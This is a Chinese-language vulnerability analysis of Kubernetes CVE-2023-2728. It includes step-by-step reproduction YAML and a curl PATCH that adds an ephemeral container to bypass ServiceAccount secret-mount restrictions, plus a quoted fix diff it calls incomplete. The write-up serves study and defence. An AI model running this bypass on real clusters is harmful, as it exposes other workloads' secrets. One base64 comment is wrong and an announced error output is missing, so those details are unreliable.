



# 漏洞分析

## 一、漏洞基本信息

| Item                        | Details                                          | Note                                        |
|-----------------------------|--------------------------------------------------|---------------------------------------------|
| Project                     | Kubernetes                                       |                                             |
| CVE-ID                      | CVE-2023-2728                                    |                                             |
| Vuln's Author               | Rita Zhang                                       |                                             |
| CVSS                        | 6.5 CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:N |                                             |
| Exploits                    |                                                  |                                             |
| Affect Version              | v1.27.0 ~ v1.27.2, v1.26.0 ~ v1.26.5, v1.25.0 ~ v1.25.10, <= v1.24.14  |                       |
| Fix Version                 | v1.27.3, v1.26.6, v1.25.11, V1.24.15             |                                             |
| Original Report             |                                                  |                                             |
| Fix Commit                  | [commit](https://github.com/kubernetes/kubernetes/commit/d59b91d97b471f51093b7d18f4fdacf0b58501f2)  |   |
| Introduce Commit            |                                                  |                                             |
| Publish Date                | 2023-07-03                                       |                                             |
| Introduce Date              |                                                  |                                             |


## 二、组件简介
`kube-apiserver`为kubernetes核心组件，提供对资源的增删改查及鉴权等功能，所有对资源的访问请求都要经过`kube-apiserver`

## 三、漏洞详情

### 1. 介绍
在pod中使用secret时，可以通过ServiceAccount的注解`kubernetes.io/enforce-mountable-secrets`来限制使用该ServiceAccount的pod只能挂载被允许的secret。ServiceAccount允许挂载的secret列表可在创建时进行指定：
```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  annotations:
    kubernetes.io/enforce-mountable-secrets: "true"
  name: test
  namespace: default
secrets:
  - name: my-secret
```
当pod使用上面的ServiceAccount时，就无法挂载`my-secret`之外的secret。但该限制可通过创建临时容器`（ephemeral containers）`进行绕过

### 2. 影响
如果用户具备对pod的patch权限，则可以通过创建临时容器挂载任意secret

## 四、防御
更新到修复版本

## 五、漏洞复现

### 1. 复现环境
- 创建包含漏洞版本的集群
```shell
kind create cluster -n cve-2023-2728 --image kindest/node:v1.27.1
```

### 2. 复现过程
- 创建ServiceAccount和Secret
```yaml
apiVersion: v1
kind: Secret
metadata:
  name: my-secret
  namespace: default
type: Opaque
data:
  username: YWRtaW4=  # base64 encoded value for 'admin'
  password: MWYyZDFlMmU2N2Rm  # base64 encoded value for 'password'
---
apiVersion: v1
kind: ServiceAccount
metadata:
  annotations:
    kubernetes.io/enforce-mountable-secrets: "true"
  name: test
  namespace: default
```
- 由于`test`账户没有指定`Secrets`列表，故使用该账户创建的`Pod`无法挂载`my-secret`，尝试挂载会返回错误
```yaml
apiVersion: v1
kind: Pod 
metadata:
  name: test
spec:
  serviceAccountName: test
  containers:
  - image: ubuntu
    name: test
    command: ["sleep"]
    args: ["10000"]
    volumeMounts:
      - mountPath: /etc/my-secret
        name: sc
  volumes:
    - name: sc  
      secret:
        secretName: my-secret
```

- 正常创建`Pod`，不挂载任何`Secrets`
```yaml
apiVersion: v1
kind: Pod 
metadata:
  name: test
spec:
  serviceAccountName: test
  containers:
  - image: ubuntu
    name: test
    command: ["sleep"]
    args: ["10000"]
---
apiVersion: v1
kind: Pod 
metadata:
  name: test1
spec:
  containers:
  - image: ubuntu
    name: test
    command: ["sleep"]
    args: ["10000"]
    envFrom:
    - secretRef:
        name: my-secret
```
注意，这里创建了两个`Pod`，理论上只创建`test`即可，但由于`kubelet`的一个bug，如果`Secrets`不在缓存中，则无法在临时容器中使用，可参考[issue](https://github.com/kubernetes/kubernetes/issues/117972)。创建`test1`的目的就是为了挂载一下`my-secret`，使其被放入`kubelet`的缓存中，否则在之后创建临时容器时会遇到如下错误：

- 创建临时容器使用`my-secret`，用`kubectl debug`无法使用secret，故使用`curl`来创建
  - 首先创建代理
  ```shell
  kubectl proxy &
  ```
  - 创建临时容器提交数据`ephemeral.json`
  ```json
  {
    "spec":
    {
        "ephemeralContainers":
        [
            {
                "name": "debugger",
                "command": ["sh"],
                "image": "busybox",
                "targetContainerName": "test",
                "stdin": true,
                "tty": true,
                "envFrom": [{
                    "secretRef": {
                        "name": "my-secret"
                    }
                }]
            }
        ]
    }
  }
  ```
  - 创建临时容器
  ```shell
  curl http://127.0.0.1:8001/api/v1/namespaces/default/pods/test/ephemeralcontainers -X PATCH -H "Content-Type: application/strategic-merge-patch+json" -d "`cat ephemeral.json`"
  ```
- 登录临时容器，查看环境变量中是否包含`my-secret`
```shell
kubectl attach -it -c debugger test
```


## 六、漏洞分析

### 1. 原始特性分析

`EphemeralContainer`临时容器主要应用于对正在运行的`Pod`进行调试，排查错误

### 2. 调用链分析

### 3. 漏洞分析
`kube-apiserver`的`securityaccount admission plugin`没有对`EphemeralContainer`挂载`Secret`进行权限校验

## 七、漏洞修复分析

增加权限校验，但只校验了`env`方式挂载`secret`而没有校验`envFrom`挂载的方式，故未修复完整，仍可绕过
```patch
diff --git a/plugin/pkg/admission/serviceaccount/admission.go b/plugin/pkg/admission/serviceaccount/admission.go
index 769a115aef5c..c844a051c24b 100644
--- a/plugin/pkg/admission/serviceaccount/admission.go
+++ b/plugin/pkg/admission/serviceaccount/admission.go
@@ -349,6 +362,36 @@ func (s *Plugin) limitSecretReferences(serviceAccount *corev1.ServiceAccount, po
 	return nil
 }
 
+func (s *Plugin) limitEphemeralContainerSecretReferences(pod *api.Pod, a admission.Attributes) error {
+	// Require ephemeral container pods to have service accounts
+	if len(pod.Spec.ServiceAccountName) == 0 {
+		return admission.NewForbidden(a, fmt.Errorf("no service account specified for pod %s/%s", a.GetNamespace(), pod.Name))
+	}
+	// Ensure the referenced service account exists
+	serviceAccount, err := s.getServiceAccount(a.GetNamespace(), pod.Spec.ServiceAccountName)
+	if err != nil {
+		return admission.NewForbidden(a, fmt.Errorf("error looking up service account %s/%s: %w", a.GetNamespace(), pod.Spec.ServiceAccountName, err))
+	}
+	if !s.enforceMountableSecrets(serviceAccount) {
+		return nil
+	}
+	// Ensure all secrets the ephemeral containers reference are allowed by the service account
+	mountableSecrets := sets.NewString()
+	for _, s := range serviceAccount.Secrets {
+		mountableSecrets.Insert(s.Name)
+	}
+	for _, container := range pod.Spec.EphemeralContainers {
+		for _, env := range container.Env {
+			if env.ValueFrom != nil && env.ValueFrom.SecretKeyRef != nil {
+				if !mountableSecrets.Has(env.ValueFrom.SecretKeyRef.Name) {
+					return fmt.Errorf("ephemeral container %s with envVar %s referencing secret.secretName=\"%s\" is not allowed because service account %s does not reference that secret", container.Name, env.Name, env.ValueFrom.SecretKeyRef.Name, serviceAccount.Name)
+				}
+			}
+		}
+	}
+	return nil
+}
```

## 八、漏洞挖掘方法与过程

## 九、同类问题挖掘方法

### 设计实现层

### Fuzz

### codeql

## 十、时间线

